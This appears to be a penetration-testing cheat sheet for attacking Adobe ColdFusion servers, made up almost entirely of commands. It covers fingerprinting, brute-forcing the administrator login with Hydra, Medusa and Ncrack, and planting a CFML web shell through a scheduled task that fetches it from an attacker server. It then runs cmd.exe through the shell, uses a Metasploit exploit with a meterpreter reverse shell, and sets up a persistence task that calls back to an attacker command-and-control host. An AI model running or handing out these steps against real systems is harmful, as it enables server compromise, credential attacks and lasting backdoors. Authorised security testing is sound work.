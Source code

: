 ### **Introduction**

ColdFusion is a commercial rapid web application development platform created by Allaire Corporation, which is now maintained by Adobe Systems. It consists of a programming language known as ColdFusion Markup Language (CFML), an integrated development environment (IDE), and a scalable server for developing and delivering web and mobile applications. ColdFusion is designed to simplify the connection between HTML pages and databases, as well as to assist in building dynamic websites with advanced features that interact with databases, manipulate file content, manage session state, and integrate with various web services.

### **Identifying ColdFusion Version**

1.  Obtaining Version Using URL Path Enumeration:  
    `curl -I http://[COLDFUSION-DOMAIN]/CFIDE/administrator/`
2.  Obtaining Version Using Nmap:  
    `nmap -sV --script=http-coldfusion-version [COLDFUSION-DOMAIN]`
3.  Checking Version from Banner Grabbing:  
    `echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc [COLDFUSION-DOMAIN] 80`
    

### **Default Directories and Files ColdFusion**

1.  Access admin panel:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/administrator/index.cfm`
2.  Checking for Accessible Scripts:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/scripts/`

### **Brute-Force ColdFusion Credentials**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P password_list.txt [COLDFUSION-URL] http-post-form "/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [COLDFUSION-URL] -u admin -P password_list.txt -M http -m FORM:"/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect" -T 10`
3.  Brute-Forcing with Ncrack:  
    `ncrack -p http-form-post://[COLDFUSION-URL]/CFIDE/administrator/index.cfm -U admin -P password_list.txt`
    

### **Remote Code Execution via File Upload**

1.  Download the webshell.cfm from the GitHub repository:  
    `wget https://github.com/reider-roque/pentest-tools/blob/master/shells/webshell.cfm`
2.  Setting Up a Local Server with Python:  
    `python3 -m http.server 8000`
3.  Accessing the ColdFusion Administrator:  
    `Navigate to the admin panel.`
4.  Scheduling a Task to Download the Web Shell:
    - Task Name: `backdoor_download`
    - URL: `http://192.168.119.112:8000/webshell.cfm`
    - Publish: `True`
    - File: `c:\Inetpub\wwwroot\webshell.cfm`
5.  Opening the Web Shell via Browser:  
    `http://10.11.1.10/webshell.cfm`
6.  Use the web shell to execute a command on the server:
    - Command: `c:\windows\system32\cmd.exe`
    - Options: `/c whoami > c:\Inetpub\wwwroot\output.txt`
    - Timeout: `5`
7.  View the output from the executed command:  
    `http://10.11.1.10/output.txt`
    

### **Automating Exploitation with Metasploit**

1.  Launch Metasploit Framework Console:  
    `msfconsole`
2.  Select the ColdFusion Exploit Module:  
    `use exploit/windows/http/coldfusion_fckeditor`
3.  Set the Remote Host (RHOST):  
    `set RHOST [target]`
4.  Set the Payload:  
    `set payload windows/meterpreter/reverse_tcp`
5.  Set the Local Host (LHOST):  
    `set LHOST [YOUR_IP_ADDRESS]`
6.  Execute the Exploit:  
    `exploit`

### **Establish Persistence**

Add a scheduled task in ColdFusion to call back to a command and control server:

```CFML
<cfschedule action="update" task="Backdoor" operation="HTTPRequest"
                url="http://[ATTACKER_SERVER]/backdoor.cfm" interval="600">
```